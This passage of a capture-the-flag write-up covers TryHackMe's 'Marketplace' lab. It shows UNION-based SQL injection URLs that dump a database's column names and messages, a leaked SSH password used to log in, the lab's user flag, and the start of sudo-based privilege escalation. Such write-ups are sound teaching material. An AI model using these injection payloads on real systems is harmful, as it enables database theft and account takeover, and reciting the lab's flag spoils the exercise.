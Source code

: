 If you didnt recognize it (with that ugly $2b$) its `BCRYPT`

your time-wasting nightmare! crackin those would take years for me

if the hash was even actually in rockyou.txt

So I went for help and you can actually dig deeper in the database

For the columns you go

`10.10.228.67/admin?user=0 union select group_concat(column_name),database(),3,4 from information_schema.columns where table_name='messages'`

and get `id,is_read,message_content,user_from,user_to`

So you concat that with `10.10.228.67/admin?user=0 union select group_concat(id,message_content),database(),3,4 from messages`

And bingo!

```
User 1Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ,2Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,3Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee's browsers.,4Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,5Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,6Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via pr
```
There are passwords in messages? who would know???

anyway we got ssh access now:

`jake:@b_ENXkGYUCAv3zJ`

Get the use flag

```
jake@the-marketplace:~$ cat user.txt
THM{a_user_flag_for_one_dollar}
```

## privilege escalation

The classics first

```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
    
```
